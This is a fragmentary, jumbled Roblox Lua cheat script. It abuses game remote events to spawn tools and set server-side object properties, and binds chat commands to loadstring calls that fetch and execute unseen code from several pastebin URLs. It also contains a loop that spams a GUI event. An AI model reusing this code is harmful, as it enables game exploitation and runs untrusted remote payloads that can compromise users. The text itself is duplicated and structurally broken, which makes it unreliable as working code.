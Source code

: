 
function CE:FireEvent(ItemName, Object, Property, Value) -- DON'T EDIT
	MainUserW:FindFirstChild(ItemName)["ServerControl"]:InvokeServer("SetProperty",{["Value"]=Value,["Property"]=Property,["Object"]=Object}) 
end

C.workspace.Buy:FireServer(0, "PompousTheCloud") -- DON'T EDIT

MainUserP["Backpack"]:WaitForChild("PompousTheCloud").Parent = MainUserW -- DON'T EDIT
CE:FireEvent("PompousTheCloud",MainUserW["Right Leg"],"Transparency","1")
CE:FireEvent("PompousTheCloud",MainUserW["Left Leg"],"Transparency","1")
    end
    if msg:lower() == "^head" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud") -- YOUR GAMEPASS


local UserName  = game:GetService("Players").LocalPlayer.Name -- DON'T EDIT
local Name = "NAME"-- NAME THE TOOL IF WANT 
local CE = {} -- DON'T EDIT
local C = { -- DON'T EDIT
	workspace = game:GetService("Workspace"), 
	players = game:GetService("Players") 
}
local MainUserP, MainUserW = C.players.LocalPlayer, C.workspace:FindFirstChild(UserName) -- DON'T EDIT


function CE:FireEvent(ItemName, Object, Property, Value) -- DON'T EDIT
	MainUserW:FindFirstChild(ItemName)["ServerControl"]:InvokeServer("SetProperty",{["Value"]=Value,["Property"]=Property,["Object"]=Object}) 
end

C.workspace.Buy:FireServer(0, "PompousTheCloud") -- DON'T EDIT

MainUserP["Backpack"]:WaitForChild("PompousTheCloud").Parent = MainUserW -- DON'T EDIT
CE:FireEvent("PompousTheCloud",MainUserW["Head"],"Transparency","1")
CE:FireEvent("PompousTheCloud",MainUserW["Head"]["face"]:Remove())
    end
    if msg:lower() == "^bbat" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/zq4TYFG1"))()
    end
	if msg:lower() == "^ambulance" then 
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/Zg7dnb5K"))()
    end
    if msg:lower() == "^badnoob" then
		game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
		loadstring(game:HttpGet("https://pastebin.com/raw/tB0He0HJ"))()
	end
    if msg:lower() == "^ak" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/EK2yyybY"))()
    end
    if msg:lower() == "^cool" then        
		while wait() do
	    game.Workspace.GuiEvent:FireServer("Speed.") 
            wait(0.5)
	    game.Workspace.GuiEvent:FireServer("Speed..") 
            wait(0.5)
            game.Workspace.GuiEvent:FireServer("Speed...") 
            wait(0.5)
            game.Workspace.GuiEvent:FireServer("Speed....") 
            wait(0.5)
